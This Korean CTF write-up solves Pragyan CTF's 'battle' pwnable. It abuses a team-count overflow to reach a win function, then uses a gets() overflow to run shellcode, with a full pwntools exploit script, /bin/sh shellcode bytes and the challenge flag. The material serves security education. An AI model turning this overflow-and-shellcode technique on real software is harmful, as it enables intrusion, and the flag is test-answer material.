





# _battle_

**Category:** _Pwnable_

**Source:** _Pragyan CTF_

**Points:** _150_

**Author:** _galaxy(김경환)_

**Description:** 

> None
(ctf가 종료 된 후 웹페이지에서 문제들을 지움 서버는 살아있음)

## Point
- _shellcode_
- _bof_

## Write-up



모든 옵션이 꺼져 있음

shellcode 삽입 후 bof로 shellcode 실행이 가능

binary를 실행해 보면 A, F, Q 로 선택가능한 메뉴가 있고

A = 팀원 추가
F = Fight(점수 측정??)
Q = Quit

binary를 다양하게 테스트해보니 특이한점이 발견됨

A로 게속해서 팀원을 추가하면 9/8까지 추가가 가능함



ida가 깔끔하게 decompile해주지 않았음(7 version 쓰면 잘 나오려나....)



A command 부분임

malloc으로 256만큼의 크기를 할당 받고 그 부분에 A 뒤에 입력한 team memeber를 strcpy 함

특정위치(&v13+ (blablabla.....))에 위에서 받은 rand값을 입력 

F command를 보내면 fight를 호출 argument로 멤버수와 위의 rand값이 들어있는 특정위치가 전달됨



특정위치를 기준으로 멤버수만큼 값을 더함

//앞에서 특정위치가 선언될때 int로 선언되어 있고 32byte를 malloc받았었음 그래서 총 9명의 팀원을 받으면 이부분이 boundary over가 될것 같았는데 실제 값들은 1byte씩 입력되고 1byte씩 계산됨 - ida가 잘못 decompile했다고 추측

모두 더한 값이 400이 되면 win함수를 호출

팀원을 8/8까지만 채우면 400이 절대 나올 수 없음

test로 9/8까지 했을 때 team member로 입력 된 값이 총 9byte만큼 더해져서 400과 비교됨

따라서 앞의 8번까지는 아무값이나 넣어주고 마지막 9번째에서는 team member로 9byte합 400이 나오게 입력(",,,,,,,,0")

win 함수 호출 가능



gets로 받은 값이 "WinnersOnlyAllowed"와 비교해서 맞으면 

gets로 입력하는 곳의 주소가 출력됨

"WinnersOnlyAllowed"와 다르면 문자열이 출력됨

main에서 while로 무한정 반복하기 때문에 win을 여러번 호출 가능

gets로 값을 입력받기 때문에 bof가능

또한 입력받는곳의 공간이 0x70으로 shellcode를 입력하기에 충분함

따라서 처음에는 문자열을 올바르게 입력해서 buffer의 주소를 알아내고

win을 한번 더 호출해서 buffer에 shellcode입력과 ret위치에 buffer의 주소를 덮어써서 shellcode실행

shell을 띄운 후 flag 출력
(root로 이동한 듯보이는데 flag가 보이지않아 처음에 당황
home에 battle도 없어서 find로 flag를 검색
bin에 flag.txt가 있어서 cat으로 출력 함)

```python
from pwn import *

if __debug__:
	script='''b* 0x80492fb
	c
	'''
	p=gdb.debug('./battle',script)
	# p=process('./battle')
else:
	p=remote('ctf.pragyan.org',12500)
	
for i in range(8):
	p.sendafter('/8\n',"A a\n")

p.sendafter('/8\n',"A ,,,,,,,,0\n")
p.sendafter('/8\n','F\n')
p.sendafter('leaderboard: ','WinnersOnlyAllowed\n')
p.recvuntil('Leaderboard: 0x')
addr=int(p.recv(8),16)
print('leaderboard addr = '+hex(addr))
shellcode='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
dummy='\x90'*(112-len(shellcode))

p.sendafter('/8\n','F\n')
p.sendafter('leaderboard: ',shellcode+dummy+p32(addr)+'\n')
p.interactive()
p.close()
```


Flag : p_ctf{Y0u_w1n_s0me_aND_u_l0ose_sOm3}

## References